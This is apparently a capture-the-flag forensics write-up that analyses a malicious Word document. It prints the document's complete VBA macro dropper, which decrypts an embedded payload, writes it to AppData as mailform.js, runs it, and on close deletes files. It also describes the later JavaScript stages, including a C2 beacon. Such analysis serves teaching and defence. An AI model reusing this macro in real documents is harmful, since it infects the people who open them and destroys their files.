





 <font size='10'>Game Invitation</font>

09<sup>th</sup> February 2024 / Document No. D24.102.XX

Prepared By: thewildspirit

Challenge Author(s): thewildspirit

Difficulty: <font color=red>Hard</font>

Classification: Official

# Synopsis

A hard forensics challenge that involves "egg hunting" an encrypted embedded payload on a malicious document, and deobfuscating two layers of malicious javascript to uncover a javascript-based Command & Control beacon.

## Description

* In the bustling city of KORP™, where factions vie in The Fray, a mysterious game emerges. As a seasoned faction member, you feel the tension growing by the minute. Whispers spread of a new challenge, piquing both curiosity and wariness. Then, an email arrives: "Join The Fray: Embrace the Challenge." But lurking beneath the excitement is a nagging doubt. Could this invitation hide something more sinister within its innocent attachment?

## Skills Required

* VBA macros knowledge
* Javascript knowledge
* Basic encryption algorithm recognition

## Skills Learned

* VBA macros extraction
* VBA macros deobfuscation
* Javascript deobfuscation
* Carving out egg-hunting payloads

# Enumeration

We are given a file named `invitation.docm`. Before even analyzing we know that it probably contains macros due to its extension `.docm`. The `m` indicates that this file has embedded macros.

As always using `olevba` we can extract and analyze the macros.

```vbs
Public IAiiymixt As String
Public kWXlyKwVj As String


Function JFqcfEGnc(given_string() As Byte, length As Long) As Boolean
Dim xor_key As Byte
xor_key = 50
For i = 0 To length - 1
given_string(i) = given_string(i) Xor xor_key
xor_key = ((xor_key Xor 99) Xor (i Mod 254))
Next i
JFqcfEGnc = True
End Function

Sub AutoClose()
On Error Resume Next
Kill IAiiymixt
On Error Resume Next
Set aMUsvgOin = CreateObject("Scripting.FileSystemObject")
aMUsvgOin.DeleteFile kWXlyKwVj & "\*.*", True
Set aMUsvgOin = Nothing
End Sub

Sub AutoOpen()
On Error GoTo MnOWqnnpKXfRO
Dim chkDomain As String
Dim strUserDomain As String
chkDomain = "GAMEMASTERS.local"
strUserDomain = Environ$("UserDomain")
If chkDomain <> strUserDomain Then

Else

Dim gIvqmZwiW
Dim file_length As Long
Dim length As Long
file_length = FileLen(ActiveDocument.FullName)
gIvqmZwiW = FreeFile
Open (ActiveDocument.FullName) For Binary As #gIvqmZwiW
Dim CbkQJVeAG() As Byte
ReDim CbkQJVeAG(file_length)
Get #gIvqmZwiW, 1, CbkQJVeAG
Dim SwMbxtWpP As String
SwMbxtWpP = StrConv(CbkQJVeAG, vbUnicode)
Dim N34rtRBIU3yJO2cmMVu, I4j833DS5SFd34L3gwYQD
Dim vTxAnSEFH
    Set vTxAnSEFH = CreateObject("vbscript.regexp")
    vTxAnSEFH.Pattern = "sWcDWp36x5oIe2hJGnRy1iC92AcdQgO8RLioVZWlhCKJXHRSqO450AiqLZyLFeXYilCtorg0p3RdaoPa"
    Set I4j833DS5SFd34L3gwYQD = vTxAnSEFH.Execute(SwMbxtWpP)
Dim Y5t4Ul7o385qK4YDhr
If I4j833DS5SFd34L3gwYQD.Count = 0 Then
GoTo MnOWqnnpKXfRO
End If
For Each N34rtRBIU3yJO2cmMVu In I4j833DS5SFd34L3gwYQD
Y5t4Ul7o385qK4YDhr = N34rtRBIU3yJO2cmMVu.FirstIndex
Exit For
Next
Dim Wk4o3X7x1134j() As Byte
Dim KDXl18qY4rcT As Long
KDXl18qY4rcT = 13082
ReDim Wk4o3X7x1134j(KDXl18qY4rcT)
Get #gIvqmZwiW, Y5t4Ul7o385qK4YDhr + 81, Wk4o3X7x1134j
If Not JFqcfEGnc(Wk4o3X7x1134j(), KDXl18qY4rcT + 1) Then
GoTo MnOWqnnpKXfRO
End If
kWXlyKwVj = Environ("appdata") & "\Microsoft\Windows"
Set aMUsvgOin = CreateObject("Scripting.FileSystemObject")
If Not aMUsvgOin.FolderExists(kWXlyKwVj) Then
kWXlyKwVj = Environ("appdata")
End If
Set aMUsvgOin = Nothing
Dim K764B5Ph46Vh
K764B5Ph46Vh = FreeFile
IAiiymixt = kWXlyKwVj & "\" & "mailform.js"
Open (IAiiymixt) For Binary As #K764B5Ph46Vh
Put #K764B5Ph46Vh, 1, Wk4o3X7x1134j
Close #K764B5Ph46Vh
Erase Wk4o3X7x1134j
Set R66BpJMgxXBo2h = CreateObject("WScript.Shell")
R66BpJMgxXBo2h.Run """" + IAiiymixt + """" + " vF8rdgMHKBrvCoCp0ulm"
ActiveDocument.Save
Exit Sub
MnOWqnnpKXfRO:
Close #K764B5Ph46Vh
ActiveDocument.Save
End If
End Sub

+----------+--------------------+---------------------------------------------+
|Type      |Keyword             |Description                                  |
+----------+--------------------+---------------------------------------------+
|AutoExec  |AutoOpen            |Runs when the Word document is opened        |
|AutoExec  |AutoClose           |Runs when the Word document is closed        |
|Suspicious|Environ             |May read system environment variables        |
|Suspicious|Open                |May open a file                              |
|Suspicious|Put                 |May write to a file (if combined with Open)  |
|Suspicious|Binary              |May read or write a binary file (if combined |
|          |                    |with Open)                                   |
|Suspicious|Kill                |May delete a file                            |
|Suspicious|Shell               |May run an executable file or a system       |
|          |                    |command                                      |
|Suspicious|WScript.Shell       |May run an executable file or a system       |
|          |                    |command                                      |
|Suspicious|Run                 |May run an executable file or a system       |
|          |                    |command                                      |
|Suspicious|CreateObject        |May create an OLE object                     |
|Suspicious|Windows             |May enumerate application windows (if        |
|          |                    |combined with Shell.Application object)      |
|Suspicious|Xor                 |May attempt to obfuscate specific strings    |
|          |                    |(use option --deobf to deobfuscate)          |
|Suspicious|Base64 Strings      |Base64-encoded strings were detected, may be |
|          |                    |used to obfuscate strings (option --decode to|
|          |                    |see all)                                     |
|IOC       |mailform.js         |Executable file name                         |
+----------+--------------------+---------------------------------------------+
```

Let us analyze the code.

* This function, `JFqcfEGnc`, takes in an array of bytes `given_string()` and its length. It performs an XOR encryption on each byte of the given_string() using a dynamic XOR key and returns True after the encryption is complete.
* The subroutine `AutoClose` seems to be a cleanup routine that attempts to delete a specific file (IAiiymixt) and all files in a specified directory (kWXlyKwVj) when the document or workbook is closed. Additionally, it employs error handling to ensure that any errors encountered during execution do not disrupt the closure of the document or workbook.
* The `AutoOpen` subroutine contains the main logic of the malware. It checks if the user's domain matches a predefined domain `GAMEMASTERS.local`. If the user's domain doesn't match, the subroutine exits without performing any further actions. If the user's domain matches, it proceeds to read the contents of the active document into memory. It determines the length of the file and reads its contents into a byte array `CbkQJVeAG`. It then uses a regular expression pattern to search for a specific string within the contents of the document `SwMbxtWpP`. The regular expression pattern is `sWcDWp36x5oIe2hJGnRy1iC92AcdQgO8RLioVZWlhCKJXHRSqO450AiqLZyLFeXYilCtorg0p3RdaoPa`. If the pattern is not found, the code jumps to the error handler label `MnOWqnnpKXfRO`. If the pattern is found, it calculates an offset `Y5t4Ul7o385qK4YDhr` and reads a portion of the file into another byte array `Wk4o3X7x1134j`. * Finally, it executes the file `IAiiymixt` with a parameter `vF8rdgMHKBrvCoCp0ulm` using the Run method of `WScript.Shell`.

So we need to parse the document and locate the pattern. Then we will extract the following `13082` which is the encoded payload. After decoding with the same custom XOR algorithm, we will see the next step of the attack. To do so, we will use a custom Python script.



The output can be seen below.



To make our task easier, we will beautify the code.



An experienced player here might recognize the usage of the following functions. But, using Chat-GPT, anyone can understand them.

* The `JrvS` function is used to `base64` decode a given string.
* `xR68` is RC4 decryption using the provided key along with the provided encrypted string. The key for this task is passed as a command argument during the execution of the `js` file.

```js
var lVky = WScript.Arguments;
var DASz = lVky(0);
...
Iwlh = xR68(DASz, Iwlh);
eval(Iwlh);
```

# Solution 
Taking everything into account, we can now decrypt the encrypted string. Using cyberchef, we get the following result.



By beautifying the code, we can see that the next stage is a fully functional JavaScript-based C2 beacon.

There is a function that is used to communicate with the server sending HTTP requests. We can find the flag in a cookie header as a means of beacon authentication.


